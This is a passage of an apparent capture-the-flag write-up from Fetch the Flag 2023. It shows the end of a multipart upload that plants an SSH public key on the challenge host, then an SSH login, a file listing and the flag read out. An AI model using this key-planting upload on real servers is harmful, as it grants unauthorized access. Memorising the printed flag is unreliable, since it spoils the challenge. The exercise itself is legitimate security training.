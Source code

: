 ```http
Content-Type: application/octet-stream

ssh-rsa AAAAB3Nz.................LL9IE=

------WebKitFormBoundaryaA4JfpvW4fbJslmo--
```

![](/assets/obsidian/a5e19d9116afe141a7efda55ebc0c705.png){:target='_blank'}

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023]
└─$ ssh user@challenge.ctf.games -p 31920
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.109+ x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

user@zdir-e20500f045dff0ea-7d98fb5c6b-w2vlj:~$ ls -la
total 36
drwxr-xr-x 1 user user 4096 Oct 27 17:43 .
drwxr-xr-x 1 root root 4096 Oct 26 23:01 ..
-rw-r--r-- 1 user user  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 user user 3771 Feb 25  2020 .bashrc
drwx------ 2 user user 4096 Oct 27 17:43 .cache
-rw-r--r-- 1 user user  807 Feb 25  2020 .profile
drwxr-xr-x 2 root root 4096 Oct 27 17:43 .ssh
-rw-r--r-- 1 root root   39 Oct 26 23:01 flag.txt
user@zdir-e20500f045dff0ea-7d98fb5c6b-w2vlj:~$ cat flag.txt
flag{5f4c78439297f8d605a32798f21bde82}
```
